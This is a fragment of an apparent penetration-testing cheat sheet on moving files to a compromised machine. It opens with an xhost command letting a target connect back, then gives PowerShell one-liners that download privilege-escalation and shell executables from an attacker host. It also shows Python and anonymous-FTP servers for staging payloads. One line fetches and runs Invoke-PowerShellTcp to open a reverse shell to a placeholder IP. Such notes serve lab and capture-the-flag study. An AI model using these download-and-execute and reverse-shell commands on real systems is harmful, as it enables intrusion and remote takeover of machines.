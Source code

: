 You’ll need to authorise the target to connect to you (command also run on your host):

```shell
xhost +targetip
```

---

## Linux

## Windows

### Transferring Files Without Metasploit

#### Powershell

Download files with powershell:

```powershell
powershell -c "Invoke-WebRequest -uri 'http://Your-IP:Your-Port/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'"
```

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```

Creating a server with python3:

```shell
python -m http.server
```

Creating a server with python2:

```shell
python -m SimpleHTTPServer 80
```

#### FTP

You need to create a FTP server:

- Server Linux
  Allow anonymous

```shell
python -m pyftpdlib -p 21 -u anonymous -P anonymous
```

- Windows Client

```shell
ftp
open target_ip port
open 192.168.1.22 21
```
